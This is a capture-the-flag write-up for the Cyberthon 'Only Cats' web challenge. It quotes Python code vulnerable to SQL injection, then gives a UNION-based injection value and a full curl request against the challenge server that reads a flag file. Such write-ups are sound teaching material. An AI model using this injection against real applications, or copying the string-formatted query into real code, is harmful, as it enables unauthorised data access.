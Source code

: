 ```yaml
---
created: 2024-06-11T01:33
updated: 2024-06-11T01:35
---
```


> APOCALYPSE has recently started a new business venture, a website for people to download cute images of cats! While
> that seems like a relatively normal kind of business, our intel says that it might be more than what it appears to be.
> So we've got to keep a close eye on it. Currently, their service has only cat pictures.
>
> However rumors are going around that they're venturing into dogs very soon. Could u confirm the rumour for me?

Ignoring much of the code, we can find the important stuff here

```python
assert os.path.exists("/app/images/dogs/flag.jpg")


async def download(request: Request):
    form = {**(await request.form())}
    query = {"is_public": "yes"}
    if form.get("species") is None: return "Fail"
    form["species"] = hashlib.md5(form["species"].encode()).hexdigest()
    query.update(form)
    result = await database.fetch_one(
        query="SELECT filename FROM cats WHERE is_public='{is_public}' AND species='{species}'".format(**query)
    )
    if not result or ".." in result["filename"]: return "Fail"
    return FileResponse(os.path.join("/app", "images", "cats", result["filename"]))
```

We have to send the flag from `/app/images/dogs/flag.jpg`, so the SQL query just have to return that value.

```sql
SELECT filename
FROM cats
WHERE is_public = '{is_public}'
  AND species = '{species}'
```

With some simple SQL injection

```python
species="tabby"
is_public="true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

It becomes

```sql
SELECT filename
FROM cats
WHERE is_public = 'true'
  AND 1 = 2
UNION
SELECT '/app/images/dogs/flag.jpg' --' AND species='[some hash]'
```

Thus we form the request

```bash
## Only Cats
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40501/download/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "species=tabby" \
     --data-urlencode "is_public=true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

![img.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084106/2024/06/82e66c049de002219a3ee9a267cfa0a6.png)

And heres our flag

```flag
Cyberthon{why_15_1t_4Lw4y5_d0g}
```
